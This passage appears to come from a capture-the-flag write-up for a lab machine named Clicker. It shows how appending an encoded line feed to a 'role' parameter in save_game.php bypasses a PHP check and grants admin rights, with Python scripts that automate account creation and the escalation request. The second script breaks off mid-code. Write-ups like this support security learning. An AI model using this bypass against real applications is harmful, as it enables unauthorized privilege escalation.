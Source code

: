 ## Initial access

### Move from player to admin

It is possible to alter the profile information in  “save_game.php”, even with the test :

```php
		if (strtolower($key) === 'role') {
```

So we could call something like : “/save_game.php?clicks=7&level=2&role=admin”

But we have to workaround the test on role.

In order to bypass the comparison, il is possible to use a common trick by adding a line feed after the name “role”.

Reference: [https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a)

And here are some python scripts to automate the process :

Create_account.py :

```python
import requests

BaseUrl="http://clicker.htb"

payload = {'username':'john', 'password':'doe'}
url = BaseUrl+'/create_player.php'

with requests.Session() as s:
    r = s.post(url, data=payload)
    print( r )
    cookie = {'PHPSESSID': requests.utils.dict_from_cookiejar(s.cookies)['PHPSESSID']}
```

Set_admin.py :

```python
import requests

BaseUrl="http://clicker.htb"

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

print("[ ] Login")

payload = {'username':'john', 'password':'doe'}
url = BaseUrl+'/authenticate.php'

with requests.Session() as s:
    r = s.post(url, data=payload, allow_redirects=False, proxies=proxies, verify=False)
    print( "Response code: " + str(r.status_code ) )
    cookie = {'PHPSESSID': requests.utils.dict_from_cookiejar(s.cookies)['PHPSESSID']}
    print( "Location Header: " + r.headers['Location'] )
    print ( "Cookie: " + str(cookie) )
    print( "Content: " + str(r.content) )

print("[ ] set role to Admin")

url = BaseUrl+'/save_game.php?clicks=37&level=13&role%0a=Admin'

with requests.Session() as s:
    r = s.get(url, cookies=cookie, allow_redirects=False, proxies=proxies, verify=False )
    print( "Response code: " + str(r.status_code ) )
    try:
```